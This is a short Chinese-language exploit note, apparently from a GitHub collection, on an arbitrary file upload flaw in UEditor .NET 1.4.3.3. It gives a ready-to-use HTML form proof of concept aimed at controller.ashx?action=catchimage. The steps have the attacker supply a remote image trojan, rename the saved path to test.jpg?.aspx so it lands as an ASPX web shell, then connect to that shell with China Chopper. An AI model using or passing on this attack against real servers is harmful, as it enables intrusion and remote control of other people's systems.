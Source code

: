 # Ueditor编辑器.NET1.4.3.3版本任意文件上传漏洞

## 漏洞影响：

.NET 1.4.3.3版本

## 漏洞POC：

```html
<form action="www.XXXX.com.cn/controller.ashx?action=catchimage" enctype="application/x-www-form-urlencoded" method="POST">
<p>shell addr:<input type="text" name="source[]"/></p>
<input type="submit" value="submit"/>
</form>
```

保存为html文件，打开后上传框输入远程图片马test.jpg，上传时路径最后改为test.jpg?.aspx

返回shell路径菜刀连接即可！